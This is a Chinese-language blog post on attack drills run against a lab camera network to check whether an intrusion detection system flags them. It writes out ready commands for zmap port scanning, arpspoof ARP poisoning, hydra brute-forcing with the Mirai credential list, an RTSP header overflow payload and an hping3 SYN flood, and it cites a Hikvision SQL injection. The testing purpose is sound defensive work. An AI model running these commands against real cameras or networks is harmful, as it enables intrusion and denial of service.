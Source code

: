 ```yaml
---
layout: post
title: "各种攻击演练"
date: 2018-05-20 20:00:00
author: "Johan Niu"
header-img : "img/post-bg-os-metro.jpg"
tags:
    - 攻击工具
    - 安全
    - 学习
       
---
```


# 各种攻击演练

## 1 端口探测

使用`zmap`扫描工具对视频监控网络进行端口扫描。

命令如下：

	zmap -p 23 -B 50k 192.168.12.0/24 -b telnet_portscan.csv;

测试结果在威胁界面的展示如图：

![](http://niubencoolboy.github.io/img/attack/portscan.png)

对192.168.12.0/24网段的16台摄像头的23端口进行端口扫描，共产生16条报警记录信息。

### 1.1 端口扫描工具

|工具 |状态
|---|---
|nmap | 有状态 
|zmap | 无状态 
|massscan | 无状态 

基于 `zmap` 的应用层扫描器 **`zgrab`**

zgrab 是基于zmap无状态扫描的应用层扫描器,可以自定义数据包,以及ip,domain之间的关联。

可用于快速指纹识别爆破等场景。

## 2 ARP欺骗

使用`arpspoof`攻击在视频监控内网进行ARP投毒。

对摄像头`192.168.12.143`进行ARP 攻击。

先打开 IP 转发:

	echo 1 > /proc/sys/net/ipv4/ip_forward

然后使用 arpspoof 命令进行欺骗, 命令使用方法如下:

	arpspoof -i <网卡名> -t <欺骗的目标> <我是谁>


实际命令如下：

	arpspoof -i eth0 -t 192.168.12.143 192.168.12.1;

测试结果在威胁界面的展示如图：

![](http://niubencoolboy.github.io/img/attack/arpspoof.png)

## 3 口令探测

利用开源工具`hydra`进行口令探测攻击。

这里利用`Mirai`病毒中的user与password表作为默认的口令库，

然后加入视频监控设备厂商的默认口令库。形成user.txt、passwd.txt文件。

从ssh、telnet、ftp协议服务方面测试入侵检测系统对口令探测的检测能力。

命令如下（其中ip.list即为192.168.12.0/24网段的所有视频监控ip）：

	hydra -L user.txt -P passwd.txt -vV -e ns -M ip.list ssh;
	hydra -L user.txt -P passwd.txt -vV -e ns -M ip.list telnet;
	hydra -L user.txt -P passwd.txt -vV -e ns -M ip.list ftp

测试结果在威胁界面的展示如图：

![](http://niubencoolboy.github.io/img/attack/weakpasswd.png)
	

## 4 缓冲区溢出

利用存在`RTSP`协议的缓冲区溢出漏洞的摄像头进行缓冲区溢出攻击测试。
`RTSP`协议的交互需要 `DESCRIBE reques` 请求，构造 `RTSP DESCRIBE option` 的请求数据包如下：

	RTSP_DESCRIBE_HEADERS_MAP = {
	    "CSeq": "3",
	    "Accept": "application/sdp",
	    "Authorization": "Digest " + 'A' * 10000,
	    "User-Agent": "VLC media player"
	}
	
测试结果在威胁界面的展示如图：

![](http://niubencoolboy.github.io/img/attack/buffer.png)

## 5 模拟DDOS攻击

使用`hping3`开源工具进行DOS攻击测试，

采用`SYN Flooding`对摄像头192.168.12.143进行DOS攻击，验证入侵检测系统是否能够检测出来。

命令如下：

	hping3 -I eth0 -a 192.168.12.27 -S 192.168.12.143 -p 80 -i u1000；

![](http://niubencoolboy.github.io/img/attack/ddos.png)

## 6 Web攻击

本测试采用海康威视摄像头存在的SQL注入漏洞进行Web攻击，利用`SSV-91768`（seebug 漏洞编号）漏洞信息，伪造请求进行注入。

![](http://niubencoolboy.github.io/img/attack/web.png)






